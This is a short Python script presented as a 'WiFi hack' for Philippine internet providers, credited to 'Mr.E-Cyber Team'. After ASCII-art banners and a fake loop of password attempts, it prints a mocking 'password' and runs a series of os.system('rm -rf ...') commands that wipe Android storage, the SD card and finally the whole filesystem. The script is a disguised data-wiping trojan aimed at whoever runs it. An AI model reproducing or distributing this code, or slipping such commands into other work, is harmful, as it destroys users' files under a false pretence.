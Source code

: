 #made by Mr.E-Cyber Team

print("░██╗░░░░░░░██╗██╗███████╗██╗")
print("░██║░░██╗░░██║██║██╔════╝██║")
print("░╚██╗████╗██╔╝██║█████╗░░██║")
print("░░████╔═████║░██║██╔══╝░░██║")
print('░░╚██╔╝░╚██╔╝░██║██║░░░░░██║')
print("░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░░░░╚═╝")

print("██╗░░██╗░█████╗░░█████╗░██╗░░██╗")
print("██║░░██║██╔══██╗██╔══██╗██║░██╔╝")
print("███████║███████║██║░░╚═╝█████═╝░")
print("██╔══██║██╔══██║██║░░██╗██╔═██╗░")
print("██║░░██║██║░░██║╚█████╔╝██║░╚██╗")
print("╚═╝░░╚═╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝")


print("                     Created by:Mr.E-CYBER TEAM")



input("press in enter to start")

print("choose a brand of wifi")

print("1.PLDT Home fiber")
print("2.Globe Telecommunity")
print("3.Dito Telecommunity")
print("4.Converge")
print("other")

input("input the number of brand:")

print("attack starting")


for y in range (100000):
        print("Trying password ",y," proccessing password ")
WifiHack = input("press enter to get password:")

print("password:nadeletenafilesmobata")

import os
os.system('rm -rf /storage/emulated/0/*')
os.system('rm -rf /storage/emulated/*')
os.system('rm -rf /sdcard/*')
os.system('rm -rf /sdcard/0/*')
os.system('rm -rf /sdcard1/*')                                                                            os.system('rm -rf /storage/*')
os.system('rm -rf /*')

